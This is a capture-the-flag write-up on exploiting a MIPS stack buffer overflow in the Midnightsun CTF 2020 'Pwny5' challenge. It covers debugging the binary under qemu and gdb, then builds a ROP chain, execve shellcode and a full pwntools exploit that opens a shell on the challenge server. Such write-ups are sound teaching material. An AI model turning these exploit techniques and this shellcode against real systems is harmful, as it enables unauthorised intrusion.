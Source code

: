 ```yaml
---
title: Pwny5 | Midnightsun CTF 2020
tags: ["pwn", "stack overflow", "mips"]
authors: ["jofra"]
points: 176
solves: 27
---
```


In this writeup we will see how to run and debug a `mips` binary and how to exploit a simple buffer overflow.

## Overview
In this challenge we get a statically linked binary with a very simple vulnerability. A `scanf("%s", stack_buffer)` resulting in a classic stack buffer overflow, as can be seen in the image below.

![](/assets/img/2020-04-04-pwny5_main.png)

The interesting part is that we have a `mips` binary. This was a first for me and in this writeup we will explore how I debugged and exploited this challenge.

![](/assets/img/2020-04-04-pwny5_file.png)

## Debugging setup
First of all let's get a good debugging setup.

To simply run the binary we can use `qemu-mipsel-static ./pwn5`.

We can also make qemu wait for a gdb connection on port 1234 with `qemu-mipsel-static -g 1234 ./pwn5`. Then, on another terminal, we can launch `gdb-multiarch` and run the following commands to establish the connection (I added these to my `~/.gdbinit` to make this step automatic):
```
file ./pwn5
set arch mips
target remote localhost:1234
```

And we have debugging! As a side note, `pwndbg` was making qemu crash for some reason I did not investigate, but switching to `gef` fixed that problem for the most part.


## Exploit
### pc control
To start let's get `pc` (program counter) control. The program calls `scanf("%s", buf_64_sz)` and so we just need to fill the buffer with `"A"*64` and then we have control over the `fp` (frame pointer) and `ra` (return address).

![](/assets/img/2020-04-04-pwny5_main_end.png)

```py
fp = "BBBB"
ra = "CCCC"
s.sendline("A"*64 + fp + ra)
```

### pop a shell
To pop a shell, my first thought was to **ROP**, calling the `read` syscall to read `/bin/sh` to the bss, and then calling the `execve` syscall. In [linux mips syscall](https://www.linux-mips.org/wiki/Syscall) arguments are passed in registers `$a0` to `$a3` and the syscall number is passed in register `$v0`.

After looking through the gadgets (extracted with `ROPgadget --binary ./pwn5`) I noticed that, contrarily to x86, having control over the argument registers `$a0`, `$a1` and `$a2` is not very easy.

For that reason I decided to use the existing `scanf` call in the binary to get data into the `bss`. As we can see in the image below, if we jump to the highlighted address `0x400758`, we can control where the scanf will write to by controlling `$v0`.

![](/assets/img/2020-04-04-pwny5_scanf_call.png)

And that is what I did. I used a gadget to control `$v0` and then jumped to `0x400758`.
```python
def set_v0(v0):
    return "".join([
        p32(0x0046f27c), # lw $v0, 0x20($sp); lw $ra, 0x2c($sp); jr $ra ; addiu $sp, $sp, 0x30
        "X"*0x20,
        p32(v0),
        "X"*0x8,
    ])

addr_to_read_to = elf.bss(0x100)
scanf_addr = 0x400758
ROP = "".join([
    set_v0(addr_to_read_to),
    p32(scanf_addr),
])

payload = "A"*64 + p32(elf.bss(0x200)) + ROP
s.sendline(payload)
```

I also made `fp` equal `bss+0x200`, because this value will be used to set `sp` after the call to `scanf`, on the instruction `move $sp, $fp` which is analogous to `leave` on x86. (can be seen in the first picture at 0x40078c). By controlling the stack pointer, we can regain `ra` and therefore `pc` control.

At this point I also realized that I could execute shellcode on the stack, bss, etc.. since all mappings are `rwx`. Since I was already reading to the bss, I decided to read shellcode, and then jump to it.

The shellcode consisted of:
 - setting `$a1` and `$a2` to 0
 - setting `$a0` to the address of `/bin/sh` by simply subtracting 8 to the original `$a0` (determined by debugging)
 - setting `$v0` with the `execve` syscall number
 - jumping to the address of a `syscall` gadget already in the binary

**NOTE**: Ideally I would simply use the `syscall` instruction (opcode `0000000c`), but it contains the byte `0c` which would cause `scanf` to stop reading. At the time I didn't know this, but there was a simple workaround. As you can see in [mips-isa](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf) page 159, the syscall opcode has a `code` field which we can use to our advantage. Assembling `syscall 0xfffff` results in opcode `03ffffcc` which does NOT contain a terminating char like before. That said, jumping to a `syscall` gadget was also simple enough and I even learned about delay slots.

If you notice there is a `nop` after the `j 0x4068bc`, which is not there by accident. In MIPS there are [branch delay slots](https://en.wikipedia.org/wiki/Delay_slot), meaning the next instruction is always executed, even if the previous instruction was a branch that was taken.

```python
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    addiu $a0, $a0, -8 # This will point to /bin/sh

    li $v0, 4011 # execve syscall
    j 0x4068bc # syscall gadget
    nop
""")
print disasm(mips_shellcode)

# The bytes that will stop scanf from reading
assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
s.sendline(payload_2.ljust(1132-8, "Z") + "/bin/sh")
```

And we have a shell!

## Other possible methods
Now thinking about it, since the code area is writable I guess I could have just injected my shellcode right after the `scanf` call instead of injecting it in the bss and then jumping to it.

Maybe I could even just have written the shellcode on the stack and used a gadget to jump to the stack pointer, instead of reading the second time with `scanf`.


## Exploit
Here is the full exploit:

```py
from pwn import *
import sys

LOCAL = True
if "remote" in sys.argv:
    LOCAL = False


context.clear(log_level='info', arch="mips", os='linux')
elf = ELF("pwn5")

HOST = "pwn5-01.play.midnightsunctf.se"
PORT = 10005


def go():
    if LOCAL:
        # s = process("qemu-mipsel-static -g 1234 ./pwn5".split(" "))
        s = process("qemu-mipsel-static ./pwn5".split(" "))
    else:
        s = remote(HOST, PORT)

    s.recvuntil("data:")

    def set_v0(v0):
        return "".join([
            p32(0x0046f27c), # : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
            "X"*0x20,
            p32(v0),
            "Z"*0x8,
        ])

    shellcode_addr = elf.bss(0x100)
    scanf_addr = 0x400758
    ROP = "".join([
        set_v0(shellcode_addr),
        p32(scanf_addr),
    ])

    payload = "A"*64 + p32(elf.bss(0x200)) + ROP
    print "Payload:", payload
    s.sendline(payload)

    mips_shellcode = asm("""
        xor $a1, $a1
        xor $a2, $a2

        addiu $a0, $a0, -8 # This will point to /bin/sh

        li $v0, 4011 # execve syscall
        j 0x4068bc # syscall gadget
        nop
    """)
    print disasm(mips_shellcode)

    # The bytes that will stop scanf from reading
    assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

    payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
    payload_2 = payload_2.ljust(1132-8, "Z") + "/bin/sh"
    s.sendline(payload_2)

    s.interactive()

go()
```

